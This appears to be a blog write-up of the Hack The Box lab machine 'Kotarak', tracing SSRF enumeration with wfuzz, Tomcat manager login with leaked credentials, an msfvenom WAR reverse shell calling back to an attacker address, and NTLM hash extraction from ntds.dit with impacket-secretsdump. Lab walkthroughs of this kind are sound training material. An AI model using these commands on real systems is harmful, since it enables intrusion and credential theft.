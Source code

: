 ```yaml
---
title: "Hack The Box - Kotarak"
tags: [linux,hard,ssrf,tomcat,ntds.dit,ntlm,secretsdump,wget,cronjob]
categories: HackTheBox-Linux
---
```



![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/title.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/title.png)

## *NMAP*
This Machine is the Hard level machine so i will prefer the Full Port Scan :- 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/Untitled%203.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/Untitled%203.png)


## *Enumerating [ SSRF ]*

-> So on port 8080 we have our Tomcat running . On port 60000 we have an webpage that sends an GET request on the url provided :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/Untitled%203.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/Untitled%203.png)

-> If we try to read /etc/passwd the The word **`file`** is filtered which stops us from reading local files. Although we are able to use [localhost](http://localhost) and access this and the tomcat page :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/burp.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/burp.png)

=> Scanning Ports on [localhost](http://localhost) using wfuzz 

**`wfuzz -c -z range,1-65535 --hl=2 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ`**
![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/wfuzz.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/wfuzz.png)

→ [localhost:888](http://localhost:888) has interesting things :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/back.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/back.png)

→ Taking a look at **backup** option.

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/se.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/se.png)

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/cred.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/cred.png)

We got credentials for tomcat

```
admin : 3@g01PdhB!
```

⇒ Logged in on tomcat manager page. Uploaded a WAR msfvenom shell and popped a shell :

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f war > shell.war
```
![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/tommm.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/tommm.png)

*Starting out netcat 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/image.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/image.png)

---

### *Privilege Escalation [ tomcat to atanas ]*

⇒ In /home/tomcat/to_archive/pentest_data  folder we find 2 interesting files which looks like one of them is ntds.dit and the other is system registry file :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/pwd.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/pwd.png)

Lets run [secretsdump.py](http://secretsdump.py) [ a tool from impacket ] to retrieve ntlm hashes

```impacket-secretsdump -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -system  20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin LOCAL  

```
![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/hash.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/hash.png)

→ Cracking the NTLM hash

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/crack.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/crack.png)

→ The credentials work and we are able to switch to user atanas : 

**`atanas : f16tomcat!`**

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/su.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/su.png)




